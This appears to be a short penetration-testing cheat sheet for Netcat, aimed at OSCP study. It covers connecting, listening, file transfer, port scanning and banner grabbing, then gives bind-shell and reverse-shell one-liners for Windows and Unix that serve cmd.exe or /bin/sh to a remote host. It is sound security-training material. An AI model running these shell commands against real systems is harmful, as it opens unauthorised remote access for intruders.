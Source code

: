 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet
  - OSCP
tags:
  - Netcat
---
```


Netcat which has been famously labeled as the "Swiss army knife of hacking" is a networking utility used for reading/writing from TCP/UDP sockets, port scanning, file transfer, port listening, and backdooring.

# Usage
***

![Netcat Usage](/assets/images/netcat.JPG)

# Basic Commands  
***
#### TCP Port - Connecting  
`nc -nv <IP> <PORT>`

#### TCP Port - Listening  
`nc -lvp <PORT>`

#### Connect and return HTTP Page  
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

#### File Transfer  
`nc -lvp 4444 > output.txt # Receiving End`  
`nc -nv <IP> < input.txt # Sending End`

#### Port Scanning  
`nc -z <IP> <PORT RANGE>`

#### Banner Grabbing  
`echo "" | nc -nv -w1 <IP> <PORTS>`

# Windows  
***
#### Bind Shell  
`nc -lvp 4444 -e cmd.exe`  
`nc -nv <IP> 4444`

#### Reverse Shell  
`nc -lvp 443 # Attacker - Receiving`  
`nc -nv <IP> 443 -e cmd.exe # Target - Sending`

# Nix  
***
#### Bind Shell  
`nc -lvp 4444 -e /bin/sh`  
`nc -nv <IP> 4444`

#### Reverse Shell  
`nc -lvp 443`  
`nc -nv <IP> 443 -e /bin/sh`


# Additional Resources  
***
[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)  

[Wikipedia](https://en.wikipedia.org/wiki/Netcat)
